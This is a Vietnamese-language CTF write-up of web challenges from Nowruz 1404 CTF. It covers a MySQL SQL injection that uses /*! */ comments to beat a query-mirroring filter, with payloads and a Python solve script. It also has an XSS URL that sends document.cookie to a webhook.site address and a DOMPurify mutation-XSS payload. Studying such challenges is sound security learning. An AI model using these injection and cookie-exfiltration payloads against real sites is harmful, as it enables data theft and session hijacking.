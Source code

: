 # Nowruz 1404 CTF

## web3

### Overview

Một challenge có lẽ level medium đầu tiên mà mình thật sự hiểu, context cụ thể ngắn gọn thì bài này bị dính SQLi trong LIKE clause của MySQL, và trước khi đi tới được LIKE clause này thì input của mình đã đi qua 1 hàm tên là mirrorify với nội dung dưới đây:

```python
function mirrorify($query) 
    $s_query = str_replace(["--", "#"], "?", $query);
    $trans = [
        "(" => ")", ")" => "(",
        "<" => ">", ">" => "<",
        "[" => "]", "]" => "[",
        "{" => "}", "}" => "{",
    ];
    
    $m_query = strtr($s_query, $trans);
    return $s_query . strrev($m_query);
}
```

Tóm gọn lại nội dung hàm mirrorify, ta có:
* Đầu tiên input sẽ nhận vào ở param ?query=...., sau đó nó sẽ filter mất 2 cách comment phổ biến trong MySQL là `#` và `--` 
* Tiếp theo, nó sẽ tìm và thay thế tất cả các ký tự như cách thể hiện trong mảng trans, kiểu mirror lại từ ( => ), từ { => } và ngược lại,...
* Cuối cùng, nó sẽ return lại string kết quả finalRes = (res sau bước 1) + (res sau bước 1 và 2)

### Solution

Theo mình nhìn thấy sau khi giải end và được đọc writeup thì bài này có 2 vấn đề chính ta cần phải giải quyết, đầu tiên là làm như nào để nối/thực thi được một câu query khác nghe có vẻ dễ nhưng ta phải giải quyết đồng thời cả vấn đề hai là làm như nào để syntax vẫn đúng kể cả khi nó bị nối 2 xâu cực lỏ chả liên quan gì lại với nhau?

Để trả lời cho câu hỏi 1, ta có khá nhiều cách, nhưng làm sao để cả vấn đề 1 và vấn đề 2 cùng được giải quyết 1 lúc thì khá khó.

Intended Solution của bài này là một case khá mới (hoặc là do mình gà nên chưa biết) là cách sử dụng comment `/* */ ` với trường hợp đặc biệt là `/*! */` còn nó sú như nào thì có thể đọc thêm ở [đây](https://dev.mysql.com/doc/refman/8.4/en/comments.html#:~:text=/*!%20MySQL-specific%20code%20*/)

> Tóm tắt cho document ở trên thì nếu ta sử dụng comment đặc biệt trong MySQL `/*! */`, câu query bên trong sẽ được thực thi 

Vậy tại sao việc phát hiện ra điều này lại quan trọng? Đơn giản bởi vì nếu ta reverse lại nó, `/* !*/` thì bên trong sẽ hoàn toàn là 1 comment, nó sẽ hoàn toàn thoả mãn syntax của 1 query hợp lệ kể cả mình có viết gì ở payload gốc chưa reverse

Ok vấn đề bây giờ là xây dựng được 1 payload thoả mãn thôi, và nó có thể là 1 trong 2 payload này mình lụm được khi đọc wu của các player

```
A\") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE \"FLAG_%\"), NULL */ +
```

> => Sau khi mapping ở mảng trans, kết hợp với reverse ta sẽ có
```
+ /* LLUN ,("\%_GALF"\ EKIL eman_elbat EREHW selbat.amehcs_noitamrofni MORF eman_elbat TCELES) ,LLUN ,LLUN TCELES NOINU !*/ ("\A
```

Cuối cùng sẽ return về:

```
A\") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE \"FLAG_%\"), NULL */ ++ /* LLUN ,("\%_GALF"\ EKIL eman_elbat EREHW selbat.amehcs_noitamrofni MORF eman_elbat TCELES) ,LLUN ,LLUN TCELES NOINU !*/ ("\A
```

và damn, nó 100% phù hợp với syntax sau khi kết hợp với query ban đầu:

quên chưa cho query ban đầu
```
SELECT * FROM series WHERE name LIKE (\"%${user_input}%\")
```

```
SELECT * FROM series WHERE name LIKE ("%A") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE "FLAG_%"), NULL */ ++ /* LLUN ,("%_GALF" EKIL eman_elbat EREHW selbat.amehcs_noitamrofni MORF eman_elbat TCELES) ,LLUN ,LLUN TCELES NOINU !*/ ("A%")
```

Ngoài ra có 1 cách khác là thay vì sử dụng +, ta sẽ sử dụng - ở cuối để comment lại phần đằng sau. Nhưng nhìn chung logic gần như là tương tự

Full script solve:

```python
import re
import requests

url = "https://blackmirror-chall.fmc.tf/"

def make_query(query):
    response = requests.get(url, params={"query": query})
    return response.text
# https://dev.mysql.com/doc/refman/8.4/en/comments.html#:~:text=/*!%20MySQL-specific%20code%20*/
# the one need to exploit into:
# SELECT * FROM series WHERE name LIKE (\"%${mirrorified}%\")
# The intended solution was to use the Mysql special comment => thats: /*!  sql */
sql = "SELECT table_name FROM information_schema.tables WHERE table_name LIKE \"FLAG_%\""
q1 = f"A\") /*! UNION SELECT NULL, NULL, ({sql}), NULL */ +"

print(q1) # q1= A") /*! UNION SELECT NULL, NULL, (SELECT table_name FROM information_schema.tables WHERE table_name LIKE "FLAG_%"), NULL */ +
r1 = make_query(q1)
idx = r1.rfind("FLAG_")
flag_table = r1[idx:idx+29]
print(f"[+] Table name: {flag_table}")

# second query: get the flag
q2 = f"A\") /*! UNION SELECT NULL, NULL, (SELECT flag FROM {flag_table}), NULL */ +"
r2 = make_query(q2)
flag = re.search("FMCTF{.+}", r2).group()
print(f"[+] FLAG: {flag}")
```

## web1

![image](https://hackmd.io/_uploads/rkzsHEQ21e.png)

`https://shahname-chall.fmc.tf/?count=1%22);fetch(%22https://webhook.site/65f5a9e4-8707-42e6-a2be-64a6e4c54251?cookie=%22%2BencodeURI(document.cookie));//%22`

`https://shahname-chall.fmc.tf/?count=1");alert(1);//"`


## web2:

```
seen1: S4bZz3hhH, in /ohhh-ive-seen-a-seen that resolved in robots.txt
seen2: S1IIr, in the /sitemap.xml
seen3: S1iBb, the value of data-value attr of the <input> in the page-source
seen4: S4Am4n0Oo, in the page-source's comments
seen5: Se3nJ3dDd, /xor-key, while trying to get the seen7
seen6: SOonb0Ll, b64 encoded in the index's request's header
seen7: Se3kKke3, after using Sec-Fetch-Dest: 7seen and ?name=Hajji+firuz, it was xored with the xor-key that mentioned in seen5
```







hi mọi người, do hôm qua em có làm một challenge xss mà em chưa hiểu cách payload hoạt động nên xin phép được hỏi trên này mong được mn chỉ giáo ạ

Vì giải đã end nên em xin gửi lại description em quên k cap lại ảnh nhưng nôm na là họ cho 2 url trong đó 1 của challenge, 1 là của con bot để truy cập đường dẫn. Flag nằm trong cookie của con bot này. Hint của challenge này là `why <script>1337</script> worked but <script>alert(1)</script> don't`? Phía dưới là file họ cung cấp ạ

![image](https://hackmd.io/_uploads/H1RAKrH2Jg.png)

Ban đầu ý tưởng của em là định sử dụng cve-2025-26791 vì nó áp dụng cho DOMPurify ver <3.2.4 bài này dùng 3.2.3 nhưng em chưa giải được. Sau khi giải end em có đọc writeup của một player thì họ sử dụng `<noscript><style>/*</noscript><img%20src%20onerror=alert(1)>*/` và cái img tag thay vì ở trong comment của tag style thì nó lại nhảy được ra ngoài và được thực thi (Lẽ ra các event attribute nguy hiểm sẽ bị DOMPurify block)?
    
Em có thể xin những cách giải thích thêm về cách browser hoạt động sau khi truyền vào payload được không ông b kia giải thích em thấy sú quá k hiểu gì 
`<noscript><style>/*</noscript><img%20src%20onerror=alert(1)>*/`
![image](https://hackmd.io/_uploads/S1a3OHSn1x.png)


Summarize writeup for xss challenge:

